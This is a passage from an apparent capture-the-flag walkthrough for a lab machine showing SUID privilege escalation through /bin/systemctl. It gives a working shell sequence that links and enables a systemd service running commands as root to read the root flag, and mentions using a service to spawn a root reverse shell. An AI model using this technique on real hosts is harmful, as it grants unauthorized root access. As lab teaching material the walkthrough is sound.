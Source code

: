 We can use [GTFOBins](https://gtfobins.github.io/#+suid) to check for any binaries that may be able to escalate privileges with the SUID bit set. 

`/bin/systemctl` looks promising:

![systemctl page on GTFOBins website with code to execute to escalate privileges](/assets/images/vulnversity/vulnversity-13.png)

This host allows any user to create a system service and run it as root. So we could create a service that spawns a new reverse shell as root, thus granitng us full access to the host. However in this case we're just interested in reading the final root flag, so we'll get the service to print out its contents instead.

## Post-Exploitation: Privilege Escalation

All we need to do is enter the commands given above, with a slight modification to give the full `systemctl` path:

```shell
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
cat /tmp/output
```
